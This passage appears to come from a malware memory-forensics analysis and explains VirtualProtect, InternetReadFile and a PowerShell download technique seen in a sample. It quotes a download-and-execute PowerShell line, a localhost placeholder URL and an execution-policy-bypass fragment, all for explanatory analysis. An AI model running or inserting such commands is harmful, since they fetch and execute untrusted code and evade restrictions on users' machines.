 ### **6.4.2 `VirtualProtect`**

Similarly, it compares another hash (`0x7946C61B`) which resolves to `VirtualProtect`. This function is used to change memory protection on a region, for example, from non-executable to executable. Malware uses this after writing shellcode to memory, so it can then execute it without raising suspicion from modern defences like DEP (Data Execution Prevention).

![image20](/assets/images/memory-forensics/image20.png)

## 6.5 InternetReadFile

This is a network API used to download data from the internet. It's often part of the second-stage delivery mechanism or used to fetch C2 commands or payloads.

## **6.6 DownloadUsingpowershell**

This isn’t a standard API but likely refers to PowerShell commands or strings used to download content, such as `Invoke-WebRequest` or `IEX(New-Object Net.WebClient).DownloadString()`. These are common in LOLBins and script-based malware. 

A suspicious PowerShell command is embedded:

- `IEX (New-Object Net.WebClient).DownloadString('-')`
- This is a known pattern for downloading and executing code from the web, and is heavily used by Cobalt Strike and similar tools. `http://127.0.0.1/u` this is often used for testing during development, or as a placeholder. Strings like `nop -exec bypass -EncodedCommand` Attempts to obfuscate PowerShell payloads via base64 encoding and bypass command execution restrictions.

# 7.0 Analysing the MemoryDump
